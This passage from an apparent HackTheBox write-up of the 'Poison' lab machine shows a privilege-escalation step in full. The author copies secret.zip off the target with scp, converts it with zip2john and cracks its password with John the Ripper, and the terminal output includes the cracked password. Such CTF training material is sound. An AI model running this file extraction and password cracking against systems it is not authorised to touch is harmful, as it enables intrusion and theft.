 

## Privilege Escalation

An interesting file secret.zip is found from the home directory of our user. It is password protected, and for simplicity we transfer the to our attacker host.

```
$ scp charix@10.129.177.174:secret.zip . 
Password for charix@Poison:
secret.zip                                                                                                                    100%  166     4.4KB/s   00:00    
                                                                                                                                                                
┌──(kali㉿kali)-[~/Documents/CTF/hackthebox/Poison]
└─$
```

And then bruteforce using john

```
$ zip2john secret.zip > hash.txt
ver 2.0 secret.zip/secret PKZIP Encr: cmplen=20, decmplen=8, crc=77537827
                                                                                                                                                                
┌──(kali㉿kali)-[~/Documents/CTF/hackthebox/Poison]
└─$ cat hash.txt 
secret.zip/secret:$pkzip2$1*1*2*0*14*8*77537827*0*24*0*14*7753*9827*8061b9caf8436874ad47a9481863b54443379d4c*$/pkzip2$:secret:secret.zip::secret.zip
                                                                                                                                                                
┌──(kali㉿kali)-[~/Documents/CTF/hackthebox/Poison]
└─$ john hash.txt                                              
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 2 candidates buffered for the current salt, minimum 8 needed for performance.
Warning: Only 4 candidates buffered for the current salt, minimum 8 needed for performance.
Almost done: Processing the remaining buffered candidate passwords, if any.
Warning: Only 5 candidates buffered for the current salt, minimum 8 needed for performance.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
Proceeding with incremental:ASCII
023t0k2a         (secret.zip/secret)
1g 0:00:47:47 DONE 3/3 (2022-01-02 08:21) 0.000348g/s 17502Kp/s 17502Kc/s 17502KC/s 023tsrie..023p4r20
Use the "--show" option to display all of the cracked passwords reliably
Session completed
                                                                                                                                                                
┌──(kali㉿kali)-[~/Documents/CTF/hackthebox/Poison]
└─$ john --show hash.txt
secret.zip/secret:023t0k2a:secret:secret.zip::secret.zip

1 password hash cracked, 0 left
```
